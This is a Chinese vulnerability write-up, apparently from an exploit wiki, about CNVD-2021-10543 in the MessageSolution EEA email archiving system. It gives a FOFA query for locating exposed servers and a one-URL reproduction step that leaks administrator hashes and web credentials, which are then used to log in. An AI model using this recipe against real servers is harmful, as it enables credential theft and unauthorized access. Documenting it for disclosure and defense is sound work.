 # MessageSolution 邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

<a-checkbox checked>MessageSolution 企业邮件归档管理系统EEA</a-checkbox></br>

## FOFA

<a-checkbox checked>title="MessageSolution Enterprise Email Archiving (EEA)"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/mess-1.png)



访问如下Url

```plain
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```

![img](../../../.vuepress/public/img/mess-2.png)



使用获得到的密码可以登录系统

![img](../../../.vuepress/public/img/mess-3.png)
